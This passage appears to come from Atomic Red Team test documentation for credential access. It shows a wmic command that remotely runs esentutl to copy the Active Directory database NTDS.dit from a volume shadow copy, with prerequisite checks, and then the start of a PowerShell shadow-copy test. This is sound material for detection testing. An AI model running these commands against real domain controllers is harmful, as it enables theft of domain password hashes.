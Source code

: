 

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_path | File to shadow copy | string | c:&#92;windows&#92;ntds&#92;ntds.dit|
| target_path | Target path of the result file | string | c:&#92;ntds.dit|
| target_host | IP Address / Hostname you want to target | string | localhost|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:"#{target_host}" process call create "cmd.exe /c esentutl.exe /y /vss #{source_path} /d #{target_path}"
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a reachable Domain Controller, and current context must be domain admin
##### Check Prereq Commands:
```cmd
wmic /node:"#{target_host}" shadowcopy list brief
```
##### Get Prereq Commands:
```cmd
echo Sorry, can't connect to target host, check: network, firewall or permissions (must be admin on target)
```




<br/>
<br/>

## Atomic Test #7 - Create Volume Shadow Copy with Powershell
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** 542bb97e-da53-436b-8e43-e0a7d31a6c24





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | string | C:&#92;|
